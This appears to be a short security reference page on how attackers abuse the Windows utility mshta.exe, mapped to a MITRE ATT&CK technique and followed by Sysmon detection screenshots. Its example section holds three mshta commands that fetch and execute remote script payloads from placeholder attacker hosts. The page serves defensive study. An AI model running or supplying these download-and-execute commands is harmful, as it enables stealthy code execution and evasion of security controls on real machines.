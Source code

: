 # mshta.exe
## What is it?
*mshta.exe is a legitimate Windows utility used to execute Microsoft HTML Applications (.HTA files).*

## How to abuse it
- *Executes malicious JavaScript or VBScript without spawning a visible window.*
- *Bypasses AppLocker and other security controls.*
- *Often used in phishing campaigns to execute remote scripts.*

## Example Attacks
```
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/file.sct")).Exec();close();

mshta.exe http://malicious[.]site/payload.hta

mshta.exe "javascript:a=GetObject('script:http://malicious[.]site/payload.sct')"
```

*calc.exe is spawned by mshta.exe:*

![image](https://github.com/user-attachments/assets/0165509e-73ad-4a73-a70f-f9be47a1eb37)

*sysmon logs for mshta establishing network connections:*

![image](https://github.com/user-attachments/assets/01232198-2016-4da8-a19c-902be70a96ee)

## References
- https://attack.mitre.org/techniques/T1218/005/
